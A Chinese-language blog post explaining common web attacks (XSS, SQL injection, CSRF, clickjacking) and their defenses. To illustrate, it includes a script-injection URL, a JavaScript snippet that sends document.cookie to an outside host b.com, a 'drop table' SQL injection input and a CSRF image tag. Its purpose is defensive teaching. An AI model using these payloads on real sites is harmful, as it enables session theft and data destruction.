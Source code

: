 ```yaml
---
layout: post
title: "Web安全技术(4)-常见的攻击和防御"
date: 2015-04-25 15:17
categories: ["Web", "安全"]
---
```


对于一个Web应用来说，可能会面临很多不同的攻击。下面的内容将介绍一些常见的攻击方法，以及面对这些攻击的防御手段。

一、跨站脚本攻击（XSS）
-----------------------

跨站脚本攻击的英文全称是Cross Site Script，为了和样式表区分，缩写为XSS。发生的原因是网站将用户输入的内容输出到页面上，在这个过程中可能有恶意代码被浏览器执行。

跨站脚本攻击可以分为两种：

__1). 反射型XSS__

它是通过诱使用户打开一个恶意链接，服务端将链接中参数的恶意代码渲染到页面中，再传递给用户由浏览器执行，从而达到攻击的目的。如下面的链接：

    http://a.com/a.jsp?name=xss<script>alert(1)</script>

a.jsp将页面渲染成下面的html：

    Hello xss<script>alert(1)</script>

这时浏览器将会弹出提示框。

__2). 持久型XSS__

持久型XSS将恶意代码提交给服务器，并且存储在服务器端，当用户访问相关内容时再渲染到页面中，以达到攻击的目的，它的危害更大。

比如，攻击者写了一篇带恶意JS代码的博客，文章发表后，所有访问该博客文章的用户都会执行这段恶意JS。

### Cookie劫持 ###

Cookie中一般保存了当前用户的登录凭证，如果可以得到，往往意味着可直接进入用户帐户，而Cookie劫持也是最常见的XSS攻击。以上面提过的反射型XSS的例子来说，可以像下面这样操作：

首先诱使用户打开下面的链接：

    http://a.com/a.jsp?name=xss<script src=http://b.com/b.js></script>

用户打开链接后，会加载b.js，并执行b.js中的代码。b.js中存储了以下JS代码：

{% highlight javascript %}

var img = document.createElement("img");
img.src = "http://b.com/log?" + escape(document.cookie);
document.body.appendChild(img);

{% endhighlight %}
上面的代码会向b.com请求一张图片，但实际上是将当前页面的cookie发到了b.com的服务器上。这样就完成了窃取cookie的过程。

__防御Cookie劫持的一个简单的方法是在Set-Cookie时加上HttpOnly标识，浏览器禁止JavaScript访问带HttpOnly属性的Cookie。__

### XSS的防御 ###

__1). 输入检查__

对输入数据做检查，比如用户名只允许是字母和数字，邮箱必须是指定格式。一定要在后台做检查，否则数据可能绕过前端检查直接发给服务器。一般前后端都做检查，这样前端可以挡掉大部分无效数据。

对特殊字符做编码或过滤，但因为不知道输出时的语境，所以可能会做不适当的过滤，最好是在输出时具体情况具体处理。

__2). 输出检查__

对渲染到HTML中内容执行HtmlEncode，对渲染到JavaScript中的内容执行JavascriptEncode。

另外还可以使用一些做XSS检查的开源项目。

二、SQL注入
-----------------------

SQL注入常常会听到，它与XSS类似，是由于用户提交的数据被当成命令来执行而造成的。下面是一个SQL注入的例子：

    String sql = "select * from user where username = '" + username + "'";

像上面的SQL语句，如果用户提交的username参数是leo，则数据库执行的SQL为：

    select * from user where username = 'leo'

但如果用户提交的username参数是leo'; drop table user--，那执行的SQL为：

    select * from user where username = 'leo'; drop table user--'

在查询数据后，又执行了一个删除表的操作，这样的后果非常严重。

### SQL注入的防御 ###

防止SQL注入最好的方法是使用预编译语句，如下面所示：

{% highlight java %}

String sql = "select * from user where username = ?";
PreparedStatement pstmt = conn.prepareStatement(sql);
pstmt.setString(1, username);
ResultSet results = pstmt.executeQuery();

{% endhighlight %}

不同语言的预编译方法不同，但基本都可以处理。

如果遇到无法使用预编译方法时，只能像防止XSS那样对参数进行检查和编码。

三、跨站请求伪造（CSRF）
-----------------------

跨站请求伪造的英文全称是Cross Site Request Forgery，是由于操作所需的所有参数都能被攻击者得到，进而构造出一个伪造的请求，在用户不知情的情况下被执行。看下面一个例子：

如果a.com网站需要用户登录后可以删除博客，删除博客的请求地址如下：

    GET http://a.com/blog/delete?id=1

当用户登录a.com后，又打开了http://b.com/b.html，其中有下面的内容：

    <img src="http://a.com/blog/delete?id=1"/>

这时会以用户在a.com的身份发送http://a.com/blog/delete?id=1，删除那篇博客。

### CSRF的防御 ###

1. 验证码

CSRF是在用户不知情的情况下构造的网络情况，验证码则强制用户与应用交互，所以验证码可以很好得防止CSRF。但不能什么请求都加验证码。

2. referer检查

检查请求header中的referer也能帮助防止CSRF攻击，但服务器不是总能拿到referer，浏览器可能出于安全或隐私而不发送referer，所以也不常用。倒是图片防盗链中用得很多。

3. Anti CSRF Token

更多的是生成一个随机的token，在用户提交数据的同时提交这个token，服务器端比对后如果不正确，则拒绝执行操作。

四、点击劫持（ClickJacking）
-----------------------

点击劫持是从视觉上欺骗用户。攻击者使用一个透明的iframe覆盖在一个网页上，诱使用户在该网页上操作，而实际点击却是点在透明的iframe页面。

点击劫持延伸出了很多攻击方式，有图片覆盖攻击、拖拽劫持等。

### 点击劫持的防御 ###

针对iframe的攻击，可使用一个HTTP头：X-Frame-Options，它有三种可选值：

- DENY： 禁止任何页面的frame加载；
- SAMEORIGIN：只有同源页面的frame可加载；
- ALLOW-FROM：可定义允许frame加载的页面地址。

针对图片覆盖攻击，则注意使用预防XSS的方法，防止HTML和JS注入。
